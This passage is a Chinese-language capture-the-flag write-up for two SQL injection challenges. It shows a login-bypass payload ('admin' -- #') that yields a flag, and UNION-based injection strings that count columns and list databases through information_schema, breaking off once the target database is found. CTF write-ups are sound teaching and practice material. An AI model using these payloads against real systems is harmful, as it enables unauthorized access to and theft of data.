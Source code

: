 發現可能有，且有給這題的 SQL 提示

嘗試使用 `' or 1=1 -- #` 作為 payload

![](https://i.imgur.com/AdhpJB6.png)

發現不能用 or

經猜測，username 應該是 `admin`，所以可以嘗試以下 payload:

username: `admin' -- #`
password: `<隨便>`

![](https://i.imgur.com/G1DL4PA.png)

SCTF{th3_f1rs7_5t3p_t0_the_w3B_h4ckEr}

## SQLi 102
![](https://i.imgur.com/OkPl3Nv.png)

另一個 SQL 挑戰

點開連結後，發現是一個類似關鍵字搜尋的功能，且須找到神秘的 table
![](https://i.imgur.com/04ih92w.png)

而右上的 hint 點開後，可以看到確實有 SQL injection 的問題
![](https://i.imgur.com/ltkDZBW.png)

首先先確認 books 有幾個欄位
```!
abac%' union select null,null,null,null,null,null,null,null from books -- #
```
![](https://i.imgur.com/ze0jSUg.png)

測試出來是 8 個

接著測試目前會顯示出來的欄位 id 是那些

```!
abac%' union select 1,2,3,4,5,6,7,8 from books -- #
```

![](https://i.imgur.com/m7eilNj.png)

看起來可以利用 index 2 的 title 欄位來顯示

首先根據 [chetsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)，找出有哪些 database

```!
abac%' union select 1,schema_name,3,4,5,6,7,8 from information_schema.schemata -- #
```

![](https://i.imgur.com/VdRoGeo.png)

看起來東西是在 `sqli102` 中
